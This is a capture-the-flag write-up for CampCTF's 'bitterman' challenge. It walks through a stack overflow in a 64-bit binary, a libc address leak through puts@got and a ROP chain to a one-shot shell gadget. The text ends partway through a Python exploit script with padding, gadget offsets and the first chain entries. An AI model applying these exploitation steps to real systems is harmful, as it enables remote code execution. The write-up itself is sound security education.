 ### Solved by barrebas, Swappage, superkojiman

I rolled into the CampCTF while Swappage was already working on it. He had started on bitterman, a 400 point challenge. 

We're given a 64-bit ELF binary and Swappage also managed to obtain the corresponding libc. Upon starting the binary, we're presented with the following:

```bash
> What's your name? 
BBBB
Hi, BBBB
x
> Please input the length of your message: 
-1  
> Please enter your text: 
LSJFLSDJF
> Thanks!
```

The `x` after the `BBBB` in the above example was actually `0x7f`, so the binary is leaking part of an address (we later determined it to be a stack address). In the end, I couldn't make use of this, but it was interesting to see. Swappage already found the bugs: we can send a large message length and this will allow us to overflow a stack buffer. NX is enabled so it's ROP time!

Besides NX, ASLR is also enabled. This means we have to first leak a libc address to calculate libc's base address and then something like `system()`. I made use of the `puts@plt` to write out the contents of `puts@got`. The latter contains the libc address of `puts()`, which we can then receive. Superkojiman was able to find the one-shot RCE gadget. The ROP chain goes to `read@plt` and awaits our input. Upon receiving the address of the one-shot RCE gadget in libc, the ROP chain overwrites `puts@got` and restarts the binary from `main()`. This latter decision was based on using `system()` instead of the one-shot RCE gadget, but by the time I was done implementing the ROP chain, superkojiman had already supplied the offset. When `main()` restarts, one of the first functions it calls is `puts@plt`, which is now pointing to the shell-spawning one-shot RCE gadget. We land a shell and are happy!

```python
#!/usr/bin/python
import struct, time
from socket import *

def q(x):
    return struct.pack("<Q", x)

def readtil(delim):
  buf = b''
  while not delim in buf:
      buf += s.recv(1)
  return buf
  
payload = "A"*152   # ty Swappage!

'''
0x000002bc : pop r12; pop r13; pop r14; pop r15; ret
0x00000296 : xor ebx, ebx; nop [rax + rax]; mov rdx, r13; mov rsi, r14; mov edi, r15d; call [r12 + rbx*8]
0x00000060 : pop rbp; ret
'''

base = 0x400590
# prologue, needed for later! after the [call r12 + rbx*8], there is
# a cmp rbx, rbp. At this point, rbx is 1 and if rbp is not equal to rbx, 
# the code jumps back instead of leading to a ret!
# therefore, we set up rbp first. 
payload += q(0x00000060+base)   # pop rbp ; ret
payload += q(1) # value for rbp
```